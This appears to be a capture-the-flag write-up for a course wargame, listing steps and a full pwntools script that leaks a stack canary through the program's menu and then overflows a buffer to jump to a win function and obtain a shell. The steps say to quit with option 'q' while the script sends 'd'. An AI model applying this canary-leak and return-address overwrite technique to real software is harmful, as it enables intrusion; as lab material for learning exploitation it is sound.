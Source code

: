 
Steps to exploit
------------------
1. Use the given address to calculate the canary address. The given pointer is at esp+35 and the canary is at esp+140, therefore we need to add 105 to the given address.
2. Input the calculated canary address. (option "a" in the main menu of the program)
3. Get the program to print out the value at the canary address (option "b" in the main menu)
4. Save the 4 bytes of canary
5. Select option "a" and input 96 bytes of data, then input the canary value, add 12 bytes of offset data and then input the address of the win function in little endian format
6. Select option "q" from the main menu.
7. Congratz you now have a shell

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *

NOP_OPERATOR = '\x90'

def main():
    r = remote("wargames.6447.sec.edu.au", 6003)

    r.recvuntil("a useful stack pointer ")
    base_pointer = int(r.recvline().strip(), 16)
    canary_pointer = base_pointer + 105

    r.sendline('a')
    r.sendline('4')
    r.sendline(p32(canary_pointer))

    r.recvrepeat(0.2)

    r.sendline('b')
    canary = r.recvline().strip()[22:26]
    print canary


    buf_len = 140-44 # 140 (esp+140 = canary || esp+44 = start of "len" buffer)
    win = 0x80486cd
    offset = 12 # 0xffffd5bc - 0xffffd5cc = -16 (12 offset to ret + 4 canary)

    r.sendline('a')
    r.sendline(
        NOP_OPERATOR * buf_len
        + str(canary)
        + NOP_OPERATOR * offset
        + p32(win)
    )

    r.sendline('d') # quit the program and trigger the jump

    r.interactive()

if __name__ == '__main__':
    main()
```

